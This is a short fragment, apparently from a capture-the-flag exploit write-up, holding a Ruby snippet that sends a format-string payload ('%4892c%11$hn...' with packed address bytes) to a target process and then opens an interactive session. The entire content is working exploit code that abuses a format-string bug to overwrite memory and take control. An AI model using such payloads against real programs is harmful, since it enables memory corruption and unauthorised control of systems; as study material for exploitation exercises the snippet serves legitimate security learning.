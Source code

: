 ```ruby
STDIN.gets
payload = "%4892c%11$hnAAAABBB%17$p\x18\x40\x40"
z.sendline payload

z.interact
```
